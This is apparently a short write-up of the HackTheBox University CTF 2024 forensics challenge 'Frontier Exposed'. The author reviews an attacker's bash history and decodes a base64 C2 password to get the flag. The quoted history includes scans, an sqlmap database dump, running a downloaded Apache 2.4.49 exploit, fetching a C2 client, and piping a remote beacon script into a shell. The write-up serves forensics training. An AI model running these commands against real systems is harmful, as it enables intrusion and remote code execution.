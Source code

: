 ```yaml
---
title: "Frontier Exposed"
description: "The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective. Spawn the docker and start the investigation!"
pubDate: 2024-12-17
ctf: "HackTheBox University CTF 2024"
category: "forensics"
author: "sealldev"
section: "CTFs"
image: "images/24-htbuni/icon.png"
---
```




Opening the files, the first thing I check is the `.bash_history` as generally it helps with retracing an attackers steps.

```
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html
```

I spot the password as a base64 string: `SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9`, which is the flag.

Flag: `HTB{C2_cr3d3nt14ls_3xp0s3d}`